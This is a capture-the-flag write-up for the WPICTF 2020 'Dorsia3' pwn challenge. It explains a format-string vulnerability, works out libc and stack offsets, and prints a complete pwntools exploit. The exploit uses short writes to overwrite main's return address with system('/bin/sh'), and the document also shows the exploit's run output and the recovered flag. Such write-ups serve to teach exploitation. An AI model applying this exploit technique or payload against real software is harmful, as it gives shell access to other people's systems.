



## Dorsia3 write-up

__ctf__: WPICTF 2020

__category__: pwn

__points__ : 250

---

### Task




---
### TLDR;
Format string vulnerability with arbitrary write. Overwrite `main`s return address and subvert `/bin/sh` from `libc` as its argument.

#### Before you start

Please note that in this write-up I'm focusing on this particular challenge and I'm ommiting the details on how the format string vulnerability works, as there's been plenty of work done by people who could do it better than me. See references for more.

### Binary
We are given both binary `nanowrite` and libc for this challenge. First thing to do is check the binary:

```
$ rabin2 -I nanowrite
arch     x86
baddr    0x0
binsz    16644
bintype  elf
bits     32
canary   false
class    ELF32
compiler GCC: (Arch Linux 9.3.0-1) 9.3.0
crypto   false
endian   little
havecode true
intrp    /lib/ld-linux.so.2
laddr    0x0
lang     c
linenum  true
lsyms    true
machine  Intel 80386
maxopsz  16
minopsz  1
nx       true
os       linux
pcalign  0
pic      true
relocs   true
relro    partial
rpath    NONE
sanitiz  false
static   false
stripped false
subsys   linux
va       true
```

Just a couple of notes:
- binary is 32bit - this will help us
- binary is compiled as PIE - this makes things a little bit more difficult  

I shall describe what I mean further.

We are given also a `pseudo-source` for binary in a video, which makes identifying the vulnerability trivial:

```
#include <stdio.h>
#include <stdlib.h>

void main() {
    char a[69]
    printf("%p%p\n", a, system-288);
    fgets(a,69,stdin);
    printf(a, "%s\n");
}
```

### Vulnerability
Almost textbook format string vulnerability. Moreover, we are given address on the stack and addres in `libc`. Our payload size is restricted to 69 (68, actually, since the last one will be substituted with `\x00` by `fgets`) bytes.

### Exploit

Here's a rough exploit plan:

* Use leaked address of `a` buffer to compute the address where main'2 return address is stored (let's call this `ret_place`). We'll want to write.

* Use leaked address from `libc` to compute addresses of `system` and `/bin/sh` string.

* Overwrite `ret_place` with system and `ret_place + 8` (this is where system will look for its first argument) with the address of `/bin/sh` in `libc`.  
  
  *Please note that in the last step we are exploiting the fact that binary is 32bit and thus the argument is stored on the stack. In 64bit, we would have to populate registers to pass /bin/sh as argument to system*

#### Computing offsets

From the values we are given by the binary, we need to compute the addresses of what we want to write (`system` and `/bin/sh`) and where we want to write (`ret_place`, `ret_place +8`).

Computing `system` and `/bin/sh` is straighforward. For some reason I had trouble loading the `libc` to `pwntools`, so I used `radare2` to obtain offsets from the start of `libc` and simply added these to `libc_base` in `xplt.py`.

```
$ r2 libc.so.6
[0x00019010]> izz ~ /bin/sh
17209 0x0017e0cf 0x0017e0cf 7   8    .rodata      ascii   /bin/sh

[0x00019010]> is ~ system
1510  0x0003d200 0x0003d200 WEAK   FUNC   55        system
[0x00019010]> 
```

Obtaining the destination for our writes is less trivial. Again, I used `r2` to do it, this time using the debugger capability. I sent buffer full of `A`s to the binary to see the borders clearly. Then I stopped the execution at main's `ret`.



At the screenshot we can see that our buffer starts at `0xffa1f67b`. `esp` holds `0xffa1f6ec`.
This makes `0xffa1f6ec` our `ret_place`.
Please note that the execution is stopped at the `main`s `ret`, so the next `eip` will be loaded from current [`esp`].
```
0xffa1f6ec - 0xffa1f67b = 113
=> ret_place = leak_buf_start + 113
```

Now we should be ready write our `write-what-where` primitive.

#### Writing

To be able to write with `printf`, we need to determine one more thing - which arguments does our buffer content correspond to from `printf`s perspective.
To reveal this, I sent classical `%p %p %p...` string to the binary and observed with, you guessed it, `radare2`.



From the screenshot, we can see that `payload[1:5]` corresponds to 7th argument inside printf.
I used this to compute the arg-nums corresponding to last 4 doublewords of our payload, where I place the addresses to write to.

So now we've really got everything to perform our writes.
This is how we want the stack to look after our writes:

```
...
|           ... AAA .....       | <- stack frame
---------------------------------
|           system              | <- ret_place
---------------------------------
|           anything            |
---------------------------------
|          /bin/sh in libc      | <- ret_place +8
---------------------------------
```

Now, when the binary arrives at `ret` in main, it will fetch the next `eip` from stack -> system.
As we jump back to system, system will thing it was properly called, so it thinks  `anything` is the address that was pushed by `call` instruction and our address of `/bin/sh` in libc will be thought of as the first argument. This is the very basic idea of ROP. See references for more.

I decided to do the writes in word granularity and I manipulated the order as I needed to save some space in the buffer.
(I knew the more significant bytes of `system` and `/bin/sh` will be close).

And finally:

```
[+] Opening connection to dorsia3.wpictf.xyz on port 31338: Done
[|] Leaked buffer at: 0xffd19afb
[|] Computed libc at: 0xf1a28000
b'%61862c%19$hn%20c%20$hn%24646c%21$hn%3791c%22$hnAn\x9b\xd1\xffv\x9b\xd1\xffl\x9b\xd1\xfft\x9b\xd1\xff'
65
[|] Sending payload: b'%61862c%19$hn%20c%20$hn%24646c%21$hn%3791c%22$hnAn\x9b\xd1\xffv\x9b\xd1\xffl\x9b\xd1\xfft\x9b\xd1\xff'
[*] Switching to interactive mode
$ cat flag.txt
WPI{Th3re_is_an_idea_of_4_Pa7rick_BatemaN}
```

### Exploit Listing
Here's the exploit listing, also available as `.py` in the writeup directory. It's not too nice piece of code, full of 'magical' constants. At least I tried to explain them with comments.

```python
from pwn import *

bin_sh_offset = 0x0017e0cf # remote
system_offset = 0x0003d200 # remote 


def perform_writes(where1, system, where2, bin_sh):
    """
    we want to write system to ret_addr and /bin/sh address to ret_addr + 8
    ret_addr computed from buf_addr
    /bin/sh computed from buf_addr
    """

    system_upper = system >> 16
    system_lower = system & 0xffff
    bin_sh_upper = bin_sh >> 16
    bin_sh_lower = bin_sh & 0xffff

    
    payload = b'%'
    payload += str(system_upper).encode('ascii')
    payload += b'c%19$hn%'
    num_written = system_upper
    next_write = (bin_sh_upper - num_written) % 2**16
    payload += str(next_write).encode('ascii')
    payload += b'c%20$hn%'
    num_written = (num_written + next_write) % 2**16
    next_write = (system_lower - num_written) % 2**16
    payload += str(next_write).encode('ascii')
    payload += b'c%21$hn%'
    num_written = (num_written + next_write) % 2**16
    next_write = (bin_sh_lower - num_written) % 2**16
    payload += str(next_write).encode('ascii')
    payload += b'c%22$hn'
    
    payload += (49 - len(payload))*b'A' # the write destinations need to be aligned
    
    payload += p32(where1 + 2)
    payload += p32(where2 + 2)
    payload += p32(where1)
    payload += p32(where2)

    print(payload)
    print(len(payload))
    
    return payload

def compute(buf_addr, libc_base):
    # return addr of return addres, param, system, /bin/sh
    # 113 and 121 are offsets to ret_place and argument for system
    return (buf_addr + 113, buf_addr + 121, libc_base + system_offset, libc_base+bin_sh_offset)

def compute_libc_base(libc_leak):
    # we are given address of system - 0x120, so need to subract it
    return libc_leak + 0x120 - system_offset

r = remote('dorsia3.wpictf.xyz', 31338)

buffer_addr = int(r.recv(10), 16)
libc_leak = int(r.recv(10), 16)
r.recvline()

libc_base = compute_libc_base(libc_leak)

print(f'[|] Leaked buffer at: {hex(buffer_addr)}')
print(f'[|] Computed libc at: {hex(libc_base)}')

addrs = compute(buffer_addr,libc_base)
payload = perform_writes(addrs[0], addrs[2], addrs[1], addrs[3])

print(f'[|] Sending payload: {payload}')
r.sendline(payload)
r.recvline()
r.interactive()

```

### References
https://ropemporium.com/ - great place to learn about ROP
https://www.exploit-db.com/docs/english/28476-linux-format-string-exploitation.pdf - format string vuln explained 